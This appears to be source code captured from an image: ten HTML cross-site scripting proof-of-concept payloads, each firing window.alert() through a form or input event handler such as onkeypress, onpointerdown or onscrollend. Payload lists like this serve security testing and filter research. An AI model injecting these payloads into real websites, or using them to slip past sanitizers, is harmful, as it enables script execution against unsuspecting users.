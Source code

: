 <!-- Example 1: onkeypress -->
<form onkeypress="window.alert()" contenteditable style="display: block;">test</form>

<!-- Example 2: onkeyup -->
<form onkeyup="window.alert()" contenteditable style="display: block;">test</form>

<!-- Example 3: onmousedown -->
<form onmousedown="window.alert()" style="display: block;">test</form>

<!-- Example 4: onmousewheel -->
<form onmousewheel="window.alert()" style="display: block;">requires scrolling</form>

<!-- Example 5: onpointerdown -->
<form onpointerdown="window.alert()" style="display: block;">XSS</form>

<!-- Example 6: onpointerrawupdate -->
<form onpointerrawupdate="window.alert()" style="display: block;">XSS</form>

<!-- Example 7: onpointerup -->
<form onpointerup="window.alert()" style="display: block;">XSS</form>

<!-- Example 8: onreset -->
<form onreset="window.alert()"><input type="reset"></form>

<!-- Example 9: onscrollend -->
<form onscrollend="window.alert()" style="display: block; overflow: auto; border: 1px dashed; width: 500px; height: 100px;">
    <br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id="x">test</span>
</form>

<!-- Example 10: input oninvalid -->
<form>
    <input oninvalid="window.alert()" required>
    <input type="submit">
</form>
